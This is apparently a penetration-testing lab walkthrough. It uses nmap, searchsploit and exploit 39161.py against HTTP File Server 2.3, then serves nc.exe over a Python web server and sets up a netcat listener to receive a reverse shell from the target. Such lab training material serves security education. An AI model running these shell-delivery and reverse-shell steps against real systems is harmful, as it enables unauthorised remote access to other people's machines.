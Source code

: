 # Fixing Exploits

## Practice Demo

Enumerate the target

* <mark style="color:yellow;">nmap -sV targetIP</mark>

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Since we don't have internet access on the lab, we will have to use a local exploit.

### Using searchsploit to search for vulns

* <mark style="color:yellow;">searchsploit HTTP File Server 2.3</mark>

<figure><img src="../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

We will move the wanted exploit to the current directory

* <mark style="color:yellow;">searchsploit -m 39161.py</mark>

### Analysing the exploit

Open up the exploit with VIM

We can see in the document how to run this exploit, in this case  it is:

* <mark style="color:yellow;">python 39161.py 'targetIP' 'targetPORT'</mark>

We run it, but nothing happens.

If we look at the document again, we can see a note telling us the following:

<figure><img src="../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

We also need to specify our <mark style="color:red;">IP and local\_port</mark> to use.

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

We need to get the netcat executable to the current directory, to do this we run:

* <mark style="color:yellow;">cp /usr/share/windows-resources/binaries/nc.exe</mark>

#### Setting up the web server where we will host the netcat executable

* <mark style="color:yellow;">python -m SimpleHTTPServer 80</mark>

#### Setting up the netcat listener to get the command shell session

* <mark style="color:yellow;">nc -nvlp 1234 (Use the specified port on the file)</mark>

You will the netcat executable getting downloaded, and you may or may not be sucessful on getting the command shell session, remember the note from the exploit. Try several times.
